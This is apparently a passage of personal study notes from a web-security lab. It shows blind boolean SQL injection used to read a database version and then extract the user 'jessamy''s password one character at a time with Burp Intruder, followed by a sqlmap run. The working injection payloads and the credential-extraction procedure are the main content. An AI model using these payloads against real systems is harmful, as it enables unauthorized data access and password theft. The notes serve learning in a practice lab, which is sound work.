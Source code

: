 	- but here server replied with different length => is wrong
- let's try with version 8 -->  `' and substring((select version()), 1, 1) = '8'#`
	- it's correct
- now the next Ch will probably be "." -> `' and substring((select version()), 1, 2) = '8.'#`
	- it's correct
- now let's try if the version is 8.0 --> `' and substring((select version()), 1, 3) = '8.0'#`
	- it's correct
=>
<span style="color:#00b050">we can repeat this process until we find the version:</span>
`' and substring((select version()), 1, 5) = '8.0.3'#`
![[Pasted image 20240307152847.png]]

Now:
we can use this mechanism -->  to find the <span style="color:#00b050">jessamy password</span>

<span style="background:#fff88f">Find jessamy password:</span>
we don't want to do it manually, bc it means doing something like this:
#payload
`' and substring((select password from injection0x02 where username = 'jessamy'), 1, 1) = 'a'#`
this will check -->  if the first Ch of jessamy password is equal to 'a'
=>
in this way it takes a life to find the password
=>
we can automate using <span style="color:#00b050">INTRUDER</span>:
- on the current request with our #payload click CTRL+i -->  to send it to Intruder 
- click on Intruder Section
- select the 'a' in the payload and add as value
  ![[Pasted image 20240307153917.png]]

- click on the Payloads section
- in the Payload settings [Simple list] insert our list => Ch from a to z and number 0 to 9 
  =>
  ![[Pasted image 20240307154214.png]]
- now click on -->  Start attack
- click on Length -->  to order by length
  =>
  `z` -->  is the only Ch with different length =>  <span style="color:#00b050">we found the first password Ch</span> 
	- if you click on the z:
		- open the response
		- search below in the bar "welcome" -->  we can check if the injection worked
		  ![[Pasted image 20240307154633.png]]

now:
we can continue in this way with BurpSuite
or:
use [[cheat#sqlmap]]

<span style="background:#fff88f">sqlmap:</span>
- copy the clean request without the payload
- save it inside a txt file
- `sqlmap -r req2.txt --level=2`
  ![[Pasted image 20240307155135.png]]
	- when it asks for:
		- fuzzy test --> n
		- random integer value --> n
		- y
		- n
	=>
	<span style="color:#00b050">We have a payload</span> 
	![[Pasted image 20240307155619.png]]
	=>